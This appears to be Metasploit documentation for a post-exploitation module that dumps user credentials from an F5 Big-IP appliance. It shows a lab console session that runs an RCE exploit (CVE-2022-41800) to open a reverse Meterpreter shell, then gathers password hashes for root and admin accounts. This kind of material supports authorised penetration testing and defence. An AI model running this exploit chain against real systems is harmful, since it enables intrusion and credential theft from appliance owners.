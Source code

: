 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom`)
4. Do: `use post/linux/gather/f5_enum_users`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

n/a

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use post/linux/gather/f5_enum_users
msf6 post(linux/gather/f5_enum_users) > set VERBOSE true
VERBOSE => true
msf6 post(linux/gather/f5_enum_users) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/f5_enum_users) > exploit

[+] admin / $6$Iyzm/x1c$gvlmWSdmj7M/NBUM9DO41LHmC1qDBxM/IMjlUfqLZatVVXHPUvo9/hFDrP1Qg3qHIC0g.O9/dq4TPgDdE3W1z.
[+] f5hubblelcdadmin / qsVgr34GRROUnQhTSvL2h1Q6NtLE9hpp
[+] rontest / $6$vVUv0eWT$RGvezgWWLpEa5WfKNumg7b04w2cz87r8TAZ0mxiAvYveDmTRu3h3KUwirAhiFOZ6LcttWxO2XS0MNAhkqaSN11
[+] root / $6$hWKQCz3U$QE39QIT8ILbdah.k85LMnvKqjq3IIPge3bfM9UAiaUy.leyzHwpjYqQ7jJxSwN1PiFjKB28ofVi6rvenaxh9l/
[+] msftest / $6$lb5UKQa8$.v/xIGpI7pvP9NCQttoDG3DUFuayJIJqs/pWrDZwhVtxygzjyiyH/J4TejPEOb/6uJXzmyUd22KiwSoTbE.qP1
[+] msftest10 / $6$SsTj4F5Q$ct0NRCUNGrAkIF7z/XSsUhF5DY1FwDgvGMxh6w09/Zm1jpu0Sj1v8LXRbEtuHlUrtaGMNGcRuU9EZYNjThEar0
[+] Passwords stored in /home/ron/.msf4/loot/20221115101111_default_10.0.0.162_f5.passwords_439089.txt
[*] Post module execution completed
```

